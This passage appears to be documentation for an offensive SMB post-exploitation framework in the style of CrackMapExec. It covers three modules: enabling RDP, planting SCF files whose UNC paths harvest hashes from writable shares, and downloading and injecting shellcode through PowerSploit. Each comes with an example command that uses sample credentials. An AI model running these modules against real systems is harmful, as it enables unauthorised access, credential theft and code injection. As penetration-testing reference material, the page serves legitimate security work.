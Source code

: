 ## rdp                       
Enables/Disables RDP  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | False  

**Options:**
```
    ACTION  Enable/Disable RDP (choices: enable, disable)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M rdp
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## scuffy                    
Creates and dumps an arbitrary .scf file with the icon property containing a UNC path to the declared SMB server against all writeable shares  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | False 

**Options:**
```
    SERVER      IP of the SMB server
    NAME        SCF file name
    CLEANUP     Cleanup (choices: True or False)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M scuffy
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## shellcode_inject          
Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
    PATH     Path to the file containing raw shellcode to inject
    PROCID   Process ID to inject into (default: current powershell process)
```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M shellcode_inject
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------